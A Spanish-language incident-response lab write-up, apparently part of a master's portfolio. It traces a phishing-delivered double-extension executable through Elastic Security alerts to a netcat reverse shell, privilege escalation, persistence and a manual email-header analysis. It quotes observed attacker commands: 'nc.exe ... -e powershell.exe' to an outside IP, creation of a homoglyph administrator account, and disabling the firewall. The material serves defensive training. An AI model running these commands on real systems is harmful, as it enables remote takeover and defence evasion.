# 03 · IR · Respuesta a Incidentes · Reverse Shell y Cadena de Postexplotación

> **Categoría:** Incident Response · SOC · Blue Team
> **Herramientas:** Elastic Security · Kibana · IRIS

📄 [Ver informe técnico completo (PDF)](./informe/LAB-ELASTIC-IRIS-RESPUESTA-INCIDENTES.pdf)

***

## Escenario

Al iniciar turno como analista SOC, el dashboard de Elastic Security mostraba más de 5.000 alertas activas de todo tipo de severidades: Critical, High, Medium y Low. El primer paso fue filtrar exclusivamente por severidad crítica para priorizar los eventos de mayor riesgo. Entre las alertas críticas destacaba una Malware Detection Alert con risk score 99 sobre el host `technique-test`, perteneciente al usuario `rogelio`. Esta alerta se convirtió en el punto de partida de la investigación que acabaría revelando un compromiso completo del endpoint: reverse shell activa, escalada de privilegios, creación de cuenta persistente mediante técnica de masquerading, desactivación del firewall, persistencia en registro y posible exfiltración de datos detectada por Machine Learning.

***

## Write-up

### 1. Detección inicial y triaje

La primera alerta generada por Elastic Security fue una **Malware Detection Alert** de severidad crítica (risk score 99) sobre el host `technique-test`, asociada al usuario `rogelio`. El archivo identificado fue `$RD60126.exe`, localizado en la Papelera de Reciclaje y con SHA256 `5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84291230af8728`.

El proceso padre era `outlook.exe`, lo que indica que la ejecución del malware se originó desde una sesión de correo legítima, consistente con un vector de entrada por phishing.



Para correlacionar todas las alertas asociadas al incidente, apliqué un filtro combinado en Kibana cruzando `user.name: rogelio`, `host.name: technique-test` y `file.name: Historial_Pagos_Visa.pdf.exe`. Esto permitió agrupar en una única vista todos los eventos relacionados con el compromiso y reconstruir la secuencia completa.



***

### 2. Reconstrucción de la kill chain

A partir de los campos `process.name`, `process.parent.name` y `process.command_line` reconstruí la cadena de ejecución completa:

```
userinit.exe
    outlook.exe
        msedge.exe
            $RD60126.exe
                Historial_Pagos_Visa.pdf.exe  (doble extensión)
                    cmd.exe
                        conhost.exe
                            nc.exe  →  Reverse Shell → 89.44.9.243:8080
                                powershell.exe
                                    whoami.exe
                                    [actividad en contexto SYSTEM]
                                    New-LocalUser 'rogeIio'
                                    Add-LocalGroupMember Administrators
                                    Set-NetFirewallProfile -Enabled False
                                    [Registry Run / RunOnce modificados]
                                    python.exe / py.exe
```

El archivo `Historial_Pagos_Visa.pdf.exe` presenta una doble extensión diseñada para ocultar su naturaleza ejecutable al usuario final. El mismo binario aparece previamente en el sistema como `$RD60126.exe` en la Papelera de Reciclaje, lo que indica que fue descargado y renombrado antes de su ejecución.

***

### 3. Establecimiento de Command and Control

El malware ejecutó **Netcat** desde una carpeta temporal del perfil del usuario comprometido:

```
C:\Users\rogelio\AppData\Local\Temp\3\nc.exe 89.44.9.243 -e powershell.exe 8080
```

Este comando establece una reverse shell hacia la IP del atacante `89.44.9.243` en el puerto `8080`, redirigiendo la entrada y salida estándar a `powershell.exe`. La evidencia del call stack confirma que la ejecución de PowerShell fue interactiva y real, no una correlación de eventos independientes.



***

### 4. Escalada de Privilegios

Se observó actividad del proceso `nc.exe` con padre `System Idle Process` ejecutando en contexto `SYSTEM`. La evidencia indica que el atacante consiguió elevar privilegios desde el contexto del usuario `rogelio` hasta el nivel más alto del sistema operativo. No se dispone de telemetría suficiente para determinar el mecanismo exacto empleado, aunque la secuencia es consistente con técnicas de impersonación de token o explotación de servicios locales.



***

### 5. Creación de Cuenta Persistente con Masquerading

Desde la sesión PowerShell controlada remotamente se ejecutó el siguiente comando:

```powershell
New-LocalUser 'rogeIio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force)
```

La cuenta creada tiene un nombre visualmente idéntico al usuario legítimo `rogelio`, pero con una sustitución de caracteres: la letra "ele minúscula" fue reemplazada por una "I latina mayúscula". Esta técnica se conoce como **masquerading por homoglifo** y está diseñada para evadir la detección visual durante una revisión manual de cuentas del sistema.

Inmediatamente después, la cuenta fue añadida al grupo `Administrators`, otorgando privilegios administrativos persistentes al atacante incluso si la sesión de Netcat se interrumpiera.



***

### 6. Evasión de Defensas

Desde la sesión PowerShell remota se ejecutó:

```powershell
Set-NetFirewallProfile -Enabled False -All
```

La desactivación completa del Firewall de Windows no solo elimina una capa de protección, sino que también facilita comunicaciones C2 sin restricciones de puerto y permite la entrada de conexiones entrantes adicionales sin bloqueo.



***

### 7. Persistencia mediante Registro de Windows

Elastic generó dos alertas específicas sobre modificación de claves del registro: **Registry Run Key Modified by Unusual Process** y **Suspicious String Value Written to Registry Run Key**, ambas con proceso `powershell.exe` y padre `nc.exe`.

Las claves modificadas fueron `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` y `RunOnce`. Esto garantiza la re-ejecución del payload cada vez que el usuario inicia sesión, proporcionando persistencia ante reinicios del sistema.





***

### 8. Posible Exfiltración detectada por Machine Learning

A las 02:44:50 del 10/07/2024, Elastic ML generó la alerta **Potential Data Exfiltration Activity to an Unusual IP Address**:

```
Origen:  10.0.1.4
Destino: 168.63.129.16
```

No existe telemetría suficiente para determinar el volumen o contenido transferido, pero la alerta se produce después de la obtención de persistencia y privilegios elevados, siendo consistente con una fase de exfiltración o comunicación C2 avanzada. La IP destino `168.63.129.16` corresponde a infraestructura de Azure, lo que sugiere un posible uso de servicios cloud legítimos para enmascarar el tráfico saliente.



***

### 9. Gestión del incidente en IRIS

Todas las alertas fueron documentadas individualmente en **IRIS** como parte del caso `#1 Initial Demo`, construyendo una timeline forense completa del incidente. IRIS permitió correlacionar los eventos, asociar los IoCs y registrar los assets comprometidos con su estado de análisis.











***

## Parte 2: Análisis manual de cabecera .eml

Como parte complementaria del laboratorio, realicé el análisis de la cabecera del correo de phishing de forma **completamente manual, sin herramientas externas**. El objetivo era identificar los indicadores de compromiso presentes en el propio email antes de la ejecución del payload.

El correo fue enviado desde `joses.slim@outluok.co`, un dominio que aplica **typosquatting** sobre `outlook.com`. La IP de envío asociada fue `103.251.167.20`, vinculada al host `mail-sor-f41.outluok.co`. Las URLs contenidas en el cuerpo del correo apuntaban a `pcloud.com` con un payload denominado `AccountReport.pdf.exe`, otra instancia de doble extensión para ocultar el ejecutable.

| Tipo | Valor | Detalle |
|------|-------|---------|
| Remitente | joses.slim@outluok.co | Typosquatting de Outlook |
| Dominio | outluok.co | Dominio fraudulento |
| IP de envío | 103.251.167.20 | Infraestructura de envío |
| Archivo | AccountReport.pdf.exe | Doble extensión (masquerading) |
| Táctica social | "¡¡Urgente!!" | Presión psicológica para ejecución inmediata |

***

## Resumen de hallazgos

| # | Hallazgo | Fuente |
|---|----------|--------|
| 1 | Ejecución de `Historial_Pagos_Visa.pdf.exe` (doble extensión) | Elastic · Malware Detection Alert |
| 2 | Reverse shell hacia `89.44.9.243:8080` via `nc.exe` | Elastic · Process Events |
| 3 | Ejecución interactiva de PowerShell desde sesión Netcat | Elastic · Call Stack |
| 4 | Actividad en contexto SYSTEM | Elastic · Process Events |
| 5 | Creación de cuenta `rogeIio` (masquerading por homoglifo) | Elastic · User Account Events |
| 6 | Inclusión en grupo Administrators | Elastic · Group Events |
| 7 | Desactivación de Windows Firewall via PowerShell | Elastic · Firewall Events |
| 8 | Persistencia en Registry Run y RunOnce | Elastic · Registry Events |
| 9 | Posible exfiltración hacia `168.63.129.16` (ML) | Elastic · ML Alert |
| 10 | Typosquatting en cabecera .eml (`outluok.co`) | Análisis manual |

***

## MITRE ATT&CK Mapping

| Táctica | Técnica | ID |
|---------|---------|-----|
| Initial Access | User Execution | T1204 |
| Execution | PowerShell | T1059.001 |
| Command and Control | Non-Application Layer Protocol | T1095 |
| Discovery | System Owner/User Discovery | T1033 |
| Privilege Escalation | Valid Accounts / Privileged Context | T1078 |
| Persistence | Create Account | T1136.001 |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 |
| Persistence | Account Manipulation | T1098 |
| Defense Evasion | Masquerading | T1036 |
| Defense Evasion | Disable or Modify System Firewall | T1562.004 |
| Exfiltration | Exfiltration Over C2 Channel | T1041 |
| Initial Access | Phishing | T1566 |

***

## Herramientas

| Herramienta | Uso |
|-------------|-----|
| Elastic Security + Kibana | Detección de alertas, correlación de eventos, query de kill chain, ML de exfiltración |
| IRIS | Documentación del incidente, timeline forense, registro de IoCs y assets |
| Análisis manual (.eml) | Inspección de cabeceras de correo sin herramientas externas |

***

## Infraestructura

Este laboratorio fue ejecutado sobre el SOC Lab propio desplegado con Elastic Stack + Docker. Toda la infraestructura de detección, correlación y respuesta está documentada en el siguiente repositorio:

🔗 [SOC Lab · Elastic Security Threat Detection Platform](https://github.com/Miguel-R13/SOC-Lab-Elastic-Security-Threat-Detection-Platform)

***

*Laboratorio realizado en el contexto del Máster en Ciberseguridad · IMMUNE x Universidad Nebrija x Banco Santander*
*Miguel Reguero · [LinkedIn](https://linkedin.com/in/miguel-reguero) · [GitHub](https://github.com/Miguel-R13)*
